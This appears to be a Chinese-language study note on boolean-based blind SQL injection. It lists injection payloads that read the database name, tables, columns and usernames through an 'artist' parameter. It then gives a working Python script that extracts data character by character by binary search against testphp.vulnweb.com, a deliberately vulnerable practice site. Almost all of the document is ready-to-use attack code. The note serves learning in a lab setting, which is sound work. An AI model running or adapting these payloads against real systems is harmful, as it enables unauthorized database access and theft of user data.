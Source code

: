 ## 布尔盲注

### 版本一

#### 测试paylaod

```
?artist=1 and if(ascii(substr(database(),1,1))>79,1,2)=1  #查数据库
```

```
(select group_concat(table_name) from information_schema.tables where table_schema=database()) #查表
```

```
(select group_concat(column_name) from information_schema.columns where table_name='users') #查特定表的字段
```

```
(select uname from acuart.users)                              #查特定表中特定信息
```

#### py脚本

```python
import requests

url0 = "http://testphp.vulnweb.com/artists.php"
result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    # 查数据库
    # payload = "database()"
    # 查表
    # payload = "(select group_concat(table_name) from information_schema.tables where table_schema=database())"
    # 查特定表的字段
    # payload = "(select group_concat(column_name) from information_schema.columns where table_name='users')"
    # 查特定表中特定信息
    payload = "(select uname  from acuart.users)"
    while head < tail:
        mid = (head + tail) >> 1

        exp = f"?artist=1 and if(ascii(substr({payload},{i},1))>{mid},1,2)=1"
        url = url0 + exp

        # print(url)
        r = requests.get(url)
        if "artist: r4w8173" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:  # 这里很细节，因为数据的最后一位的下一位永远不存在，在阿斯克码表里为 32 即为 空格
        result += chr(head)
    else:           # 所以 head 与 tail 终究都会 等于 32 ，即 触发 break
        break
    print(result)
```
